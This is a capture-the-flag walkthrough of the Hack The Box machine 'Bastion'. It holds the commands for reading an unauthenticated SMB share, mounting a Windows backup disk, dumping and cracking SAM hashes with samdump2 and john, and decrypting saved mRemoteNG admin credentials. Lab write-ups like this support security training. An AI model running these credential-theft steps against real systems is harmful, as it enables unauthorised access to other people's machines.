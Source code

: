 # Bastion [htb](https://app.hackthebox.com/machines/Bastion)
![bastion-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/bastion-01.png)


## Recon

Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/hosts-02.png)


Now we can enumerate the target with:

`nmap -sC -sV -A -p- bastion.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/nmap-res-03.png)

We have the following:

+ SSH on port 22. 
+ RPC endpoint mapper on port 135.
+ Netbios on port 139. 
+ SMB on port 445. 
+ HTTP API ports 5985 and 47001. 
+ Other RPC related ports. 

The target seems to be running a 2016 Windows server. Lets start by taking a look at the SMB, perhaps we
can access resources without authentication? After that well take a look at the HTTP API ports. 


## SMB port 445

Lets see if we can list out the shares with a null session:

`smbclient -N -L \\\\bastion.htb\\`

![shares-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/shares-04.png)

Yes we can, this is bad. If we can list information without authintication we can probably connect 
to a share as well. lets try the the `Backups` share:

`smbclient --no-pass //bastion.htb/Backups`

![backups-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/backups-05.png)

We can see we have a `WindowsImageBackup` folder, a `.tmp` file, and a `note.txt`.
The note simply tells us not to copy the eniter Backups share through the VPN:

![note-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/note-06.png)

The `.tmp` file is empty, but the most interesting thing here is the `WindowsImageBackup` folder. 
If we `cd` into the following path inside it with: 

`cd \WindowsImageBackup\L4mpje-PC\"Backup 2019-02-22 124351"`

Then run `ls` we can see the following:

![vhd-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/vhd-07.png)

There are more `.xml` files below, but we are primarly interested in thoes `.vhd` files. 
VHD (Virtual Hard Disk) files are disk image formats that store a computer's entire hard drive.

The first disk is the boot sector, ive had a look around it, not much there. The second disk is what we want. 

Once we download the disk to your kali machine, we can examine the `.vhd` files with a 
suite of tools called `libguestfs-tools`, you may need to install this on your system with:

`apt install libguestfs-tools`.

Now we can list out the partitions on the virtual disk with:

`virt-filesystems -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`

![partitions-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/partitions-08.png)


Only one partition, Lets mount it with:

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -m /dev/sda1 --ro /mnt/bastion`

If you pay close attention, youll notice this is the Windows OS installation folder (the C drive).
This means that the SAM file is in here. If we cd into:

`Windows/System32/config`

We can see the SAM file, along with the syskey to read it: 

![sam-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/sam-09.png)

Now all we need to do to read this file is use `samdump2`:

`samdump2 SYSTEM SAM`

![samdump-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/samdump-10.png)

I've tried to use `psexec` to get a shell with the NTLM hash, but that failed. I also tried other tools from the `impacker` suite, but nothing worked. So i decided to decrypt the NTLM hash locally and try to log in to the SSH. 

First, save the NTLM portion of the hash to a file: 

`echo '26112010952d963c8dc4217daec986d9' > ntlm_hash.txt`

Next, use `john` to decrypt the hash:

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT ntlm_hash.txt`

![decrypt-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/decrypt-11.png)

Now we can login to the ssh:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/shell-12.png)

## Privilege Escalation


If we take a look at our user's `AppData/Roaming` folder we can see an interesting app:

![remoteng-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/remoteng-13.png)

mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager for Windows. remote connection means passwords.


If we cd into this folder we can find the config file that stroes the accounts:

![app-dir-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/app-dir-14.png)

If we open this file we can see the following:

![admin-hash-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/admin-hash-15.png)

The admin probably used this software to connect to the Domain Controller. Now we need to decrypt the 
password. 

If we search google we can find the following [Github](https://github.com/gquere/mRemoteNG_password_decrypt) This tool should help us decrypt the password. All we nned is to transfer the `confCons.xml` file to our kali machine. 

To do that i start an FTP server with:

`python -m pyftpdlib -p 21 --write`

Then i connect to the FTP from the windows target and copy the file over:

![ftp-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/ftp-16.png)


Now we can decrypt the file with:

`./mremoteng_decrypt.py confCons.xml`

![decrypt-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/decrypt-17.png)


The low-level user password does match what we found earlier in the SAM file, lets try to connect to the 
SSH as the admin user: 

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastion/img/root-18.png)
